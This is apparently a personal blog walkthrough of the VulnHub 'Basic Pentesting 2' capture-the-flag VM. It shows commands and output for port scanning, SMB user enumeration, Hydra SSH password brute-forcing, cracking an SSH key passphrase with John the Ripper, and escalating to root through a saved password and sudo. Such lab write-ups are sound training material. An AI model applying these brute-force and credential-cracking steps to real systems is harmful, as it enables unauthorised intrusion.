 ```yaml
---
title: Basic Pentesting 2 walkthrough
date: 00:00 20-07-2018
taxonomy:
    tag:
        - hacking
        - CTF
        - walkthrough
    category:
        - blog
---
```


## Intro

Basic Pentesting 2 is a vulnerable VM freely available on [VulnHub](https://www.vulnhub.com/entry/basic-pentesting-2,241/). 

The target of the exercise is to gain root access and read the flag located at /root/flag.txt.


## Setup

Download the VM from vulnhub.com and import it in your VirtualBox.

At this point you may want to edit the VM network settings, in order to connect the vulnerable VM to the Kali machine. In my case, my Kali installation resides in a separate virtual machine, which can join the same virtual network of the vulnerable one.

After launching the vulnerable VM, a login screen is shown on the virtual monitor.

I need to find the IP address of the vulnerable VM, and this is done with a quick nmap scan:

```
root@kali:~# nmap -sS 192.168.56.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-19 07:17 EDT
Nmap scan report for 192.168.56.1
Host is up (0.000045s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 0A:00:27:00:00:00 (Unknown)

Nmap scan report for 192.168.56.100
Host is up (0.000081s latency).
All 1000 scanned ports on 192.168.56.100 are filtered
MAC Address: 08:00:27:E9:F2:8A (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.56.101
Host is up (0.00016s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
MAC Address: 08:00:27:A1:01:12 (Oracle VirtualBox virtual NIC)


Nmap scan report for 192.168.56.102
Host is up (0.0000050s latency).
All 1000 scanned ports on 192.168.56.102 are closed

Nmap done: 256 IP addresses (4 hosts up) scanned in 5.88 seconds

```

In order not to have to enter the vulnerable machine's IP every time, I added the machine's IP to the Kali's **/etc/hosts** file, by appending the following line:


```
192.168.56.101	target.local
```

## Attack

The nmap scan already provided some useful information. 

### Port 22 ###
Let's try to connect to the SSH server.

```
root@kali:~# ssh root@target.local
root@target.local's password:
```
Cool, a password protected SSH access. Of course, though, we have no username nor password to enter at the moment, so it is useless for the moment.

### Port 80 ###

Open the browser and browse to http://target.local. A simple maintenance webpage is shown. The HTML source contains a small note talking about a dev note section. Let's try to find some additional information about this with **dirbuster**.

```
root@kali:~# dirb http://target.local
	-----------------
	DIRB v2.22    
	By The Dark Raver
	-----------------
	
	START_TIME: Thu Jul 19 07:19:40 2018
	URL_BASE: http://target.local/
	WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
	
	-----------------
	
	GENERATED WORDS: 4612                                                          
	
	---- Scanning URL: http://target.local/ ----
	==> DIRECTORY: http://target.local/development/                                      	                                                                                     	                                        
	+ http://target.local/index.html (CODE:200|SIZE:158)                                 	                                                                                     	                                        
	+ http://target.local/server-status (CODE:403|SIZE:300)                              	                                                                                     	                                        
	                                                                                                                                                                                                                  
	---- Entering directory: http://target.local/development/ ----
	(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
	    (Use mode '-w' if you want to scan it anyway)
	                                                                               
	-----------------
	END_TIME: Thu Jul 19 07:19:43 2018
	DOWNLOADED: 4612 - FOUND: 2
```

Looks like the webserver is also hosting something in the /development/ folder! Browsing to http://target.local/development/ two files are found:

* dev.txt: containing some activity tracking between two developers, "**K**" and "**J**". J did set up Apache and Struts 2.5.12. K has set up SMB

* j.txt: a message from K to J, where he states that J is using a *weak password* and should change it ASAP

Very interesting! Looks like J's authentication is a weak point that could be exploited. Still, though, we are missing the usernames used by K and J on the vulnerable machine.

### Ports 139/445 ###
Ports 139 and 445 are used by NetBIOS and SMB. These ports are a huge source of information. The *enum4linux* tool can help in this case.

```
root@kali:~# enum4linux target.local
```

The [output](files/enum4linux_output.txt) of the command reveals the existence of two users on the target machine, one for "K" and one for "J":

```
....
....
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
....
```

The previous information regarding jan's weak password becomes now useful.

*Hydra* allows to bruteforce the ssh login with jan's user:

```
root@kali:~# hydra -l jan -P /usr/share/wordlists/rockyou.txt target.local ssh
	Hydra (http://www.thc.org/thc-hydra) starting at 2018-07-19 09:48:09
	[WARNING] Many SSH configurations limit the number of parallel tasks, it is 	recommended to reduce the tasks: use -t 4
	[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (	l:1/p:14344399), ~896525 tries per task
	[DATA] attacking ssh://target.local:22/
	[STATUS] 262.00 tries/min, 262 tries in 00:01h, 14344143 to do in 912:29h, 16 active
	[STATUS] 248.33 tries/min, 745 tries in 00:03h, 14343663 to do in 962:40h, 16 active
	[22][ssh] host: target.local   login: jan   password: armando
```

Ok, jan's password was actually quite weak...

Let's try to log in with jan

```
root@kali:~# ssh jan@target.local
	jan@target.local's password:
	Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)
	...
	...
	jan@basic2:~$
```

We are in!

Jan's home folder is empty, but he has read access to Kay's home folder, specifically to the .ssh folder where Kay stores his rsa keys (both private and public). The private key, however, is encrypted.

Copy the id_rsa file to the Kali machine and convert it to a hash, in order to use it with John the Ripper

```
root@kali:~# ssh2john id_rsa > hash
```

The next step consists in using John the Ripper to crack the password:

```
root@kali:~# john --wordlis=/usr/share/wordlists/rockyou.txt --format=SSH hash 
	Using default input encoding: UTF-8
	Loaded 1 password hash (SSH [RSA/DSA 32/64])
	Press 'q' or Ctrl-C to abort, almost any other key for status
	beeswax          (id_rsa)
	1g 0:00:00:00 DONE (2018-07-20 07:50) 1.408g/s 116511p/s 116511c/s 116511C/s beeswax
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed
```

The cracking succeeded: *beeswax* is the password to unlock Kay's RSA key.

```
root@kali:~# ssh -i id_rsa kay@target.local
	Enter passphrase for key 'id_rsa': 
	Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)
	...
	...
	kay@basic2:~$
	kay@basic2:~$ groups kay
	kay : kay adm cdrom sudo dip plugdev lxd lpadmin sambashare
```

The login succeded! The next step is to find Kay's password, since he belongs to the sudo group.

Luckily, Kay saved his password in a backup file in his home directory, called *pass.bak*.

```
kay@basic2:~$ cat pass.bak
	heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

Type **sudo su**, enter the latter password and...

```
root@basic2:/home/kay# whoami
root
```

Win!

The last step consists in reading the /root/flag.txt file. Looks like there are two possible ways to gain a shell, and two possible ways to privesc. I guess I will have to find the second path in a future exercise!